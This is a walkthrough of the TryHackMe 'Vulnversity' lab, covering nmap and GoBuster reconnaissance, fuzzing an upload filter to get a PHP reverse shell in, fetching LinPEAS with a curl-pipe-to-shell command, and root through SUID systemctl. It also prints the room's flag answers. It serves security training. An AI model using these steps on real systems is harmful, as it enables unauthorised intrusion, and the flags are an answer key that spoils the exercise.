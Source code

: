 # Vulnversity

The link to this room can be found [here](https://tryhackme.com/room/vulnversity).

### Task 1: Deploy The Machine

Machine IP: 10.10.77.241
### Task 2: Reconnaissance

1. Scan this box: `nmap -sV 10.10.77.241`.

   This command will scan the machine with the specified IP using nmap, determining what are the versions of the running services. Questions 2, 3, 6 and 7 can be answered by simply analyzing the [scan results](https://github.com/pamhrituc/TryHackMe_Writeups/blob/master/Vulnversity/vulnversity_scan_results.log).

2. Scan the box, how many ports are open?

   > 6

3. What version of the squid proxy is running on the machine?

   > 3.5.12

4. How many ports will nmap scan if the flag -p-400 was used?

   > 400

   According to nmap's manual pages (`man nmap`), the -p- flag is used to scan through ports from 1 to 400.

5. Using the nmap flag -n what will it not resolve?

   > DNS

   Also according to nmap's manual pages, the -n flag can be used to never do DNS resolution.

6. What is the most likely operating system this machine is running?

   > Ubuntu

   The machine's OS can be found by using the -O flag when scanning the machine. So, this command would be used `nmap -O 10.10.77.241`. Or, looking closely at the previous scan results, notice that the version of SSH used is OpenSSH 7.2p2 Ubuntu 4ubuntu2.7.

7. What port is the web server running on?

   > 3333

   In the scan results, notice that the http service is running on port 3333.

8. Its important to ensure you are always doing your reconnaissance thoroughly before progressing. Knowing all open services (which can all be points of exploitation) is very important, don't forget that ports on a higher range might be open so always scan ports after 1000 (even if you leave scanning in the background)

   > No answer needed

### Task 3: Locating directories using GoBuster

1. Lets first start of by scanning the website to find any hidden directories. To do this, we're going to use GoBuster.

   GoBuster is a tool used to brute-force URIs (directories and files), DNS subdomains and virtual host names. For this machine, we will focus on using it to brute-force directories.
   Download GoBuster [here](https://github.com/OJ/gobuster), or if you're on Kali Linux 2020.1+ run `sudo apt-get install gobuster`.
   To get started, you will need a wordlist for GoBuster (which will be used to quickly go through the wordlist to identify if there is a public directory available. If you are using Kali Linux you can find many wordlists under /usr/share/wordlists.
   Now lets run GoBuster with a wordlist: `gobuster diir -u http://<ip>:3333 -w <word list location>`

   > No answer needed.

   Since I am using Kali Linux, I simply ran the command `gobuster dir -u http://10.10.77.241:3333 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt`. The -u flag is followed by the target URL, the -w flag is followed by the path of the wordlist used. In this case, I used the directory-list-lowercase-2.3-medium.txt file from the /usr/share/wordlists/dirbuster directory.

2. What is the directory that has an upload form page?

   > /internal/

   After leaving GoBuster to scan the website for hidden directories, notice that one of the directories found is named /internal.

![Screenshot of GoBuster](/Vulnversity/screenshots/gobuster.png?raw=true)

### Task 4: Compromise the webserver

After accessing http://10.10.77.241:3333/internal, the browser will display a page containing a file upload form.

![Screenshot of upload form](Vulnversity/screenshots/upload_form.png?raw=true)

1. Try upload a few file types to the server, what common extension seems to be blocked?

   > php

   To see what extensions the server accepts, we can try uploading files manually or by using Burpsuite.

   Mainly, PHP is of interest to us, because PHP is the most common backend programming language used for web applications. 

2. To identify which extensions are not blocked, we're going to fuzz the upload form.

   > No answer needed.

3. We're going to use Intruder (used for automating customised attacks).
   To begin, make a wordlist with the following extensions in:

   ![Screenshot of word list](Vulnversity/screenshots/wordlist.png?raw=true)

   Now make sure BurpSuite is configured to intercept all your browser traffic. Upload a file, once this request is captured, send it to the Intruder. Click on "Payloads" and select the "Sniper" attack type.
   Click the "Positions" tab now, find the filename and "Add §" to the extension. It should look like so:

   ![Screenshot of burpsuite](Vulnversity/screenshots/burpsuite.png?raw=true)

   Run this attack, what extension is allowed?

   > phtml

4. Now we know what extension we can use for our payload we can progress.
   We are going to use a PHP reverse shell as our payload. A reverse shell works by being called on the remote host and forcing this host to make a connection to you. So you'll listen for incoming connections, upload and have your shell executed which will beacon out to you to control!
   Download the following reverse PHP shell [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).
   To gain remote access to this machine, follow these steps:
   1. Edit the php-reverse-shell.php file and edit the ip to be your tun0 ip (you can get this by going to http://10.10.10.10 in the browser of your TryHackMe connected device).
   2. Rename this file to php-reverse-shell.phtml
   3. We're now going to listen to incoming connections using netcat. Run the following command: `nc -lvnp 1234`
   4. Upload your shell and navigate to http://<ip>:3333/internal/uploads/php-reverse-shell.phtml - This will execute your payload
   5. You should see a connection on your netcat session

   ![Screenshot of netcat](Vulnversity/screenshots/netcat.png?raw=true)

   > No answer needed

   I simply followed the steps described in this question. The reverse shell is successful.

   ![Screenshot of reverse shell](Vulnversity/screenshots/reverse_shell.png?raw=true)

5. What is the name of the user who manages the webserver?

   > bill

   Since I have access to the webserver, I simply check what users can be found in the /home directory.

   ![Screenshot of ls cmd](Vulnversity/screenshots/ls_cmd.png?raw=true)

6. What is the user flag?

   > 8bd7992fbe8a6ad22a63361004cfcedb

   The user flag is found in the user.txt file from the /home/bill directory.

   ![Screenshot of flag](Vulnversity/screenshots/flag.png?raw=true)

### Task 5: Priviledge Escalation

1. In Linux, SUID (**set owner userId upon execution**) is a special type of file permission given to a file. SUID gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it).
   For example, the binary file to change your password has the SUID bit set on it (/usr/bin/passwd). This is because to change your password, it will need to write to the shadowers file that you do not have access to, root does, so it has root privileges to make the right changes.

   ![Screenshot_SUID](Vulnversity/screenshots/suid.png?raw=true)

   On the system, search for all SUID files. What file stands out?

   > /bin/systemctl

   Okay, I'm gonna admit, I needed a little help for this one. So, after some research and reading, I found PEASS - Privilege Escalation Awesome Scripts SUITE, download it [here](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite). The script needs to be put on the vulnerable webserver, to perform the enumeration. I started a Python HTTP server on my own machine, using the `python3 -m http.server 80` command and on the webserver, I transfered the file with curl (`curl <my_tun0_ip>/linpeas.sh | sh`).

   ![Screenshot_of_PEASS](Vulnversity/screenshots/peass.png?raw=true)

   As shown in the above screenshot, the RED/YELLOW highlights are objects that can be used for PE. After waiting for PEASS to finish running, we find /bin/systemctl in the Interesting Files section.

   ![Screenshot2_of_PEASS](Vulnversity/screenshots/peass1.png?raw=true)


2. Its challenge time! We have guided you through this far, are you able to exploit this system further to escalate your privileges and get the final answer?
   Become root and get the last flag (/root/root.txt)

   > a58ff8579f0a9270368d33a9966c7fd5

   Now we need to use /bin/systemctl to become root. For this, I used [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/). Here's a screenshot of the explanation.

   ![Screenshot_of_GTFOBins](Vulnversity/screenshots/gtfobins.png?raw=true)

   After running the above commands, replacing id with the command we want to run as root (`cat /root/root.txt`), we start the service. The flag is written to /tmp/output.
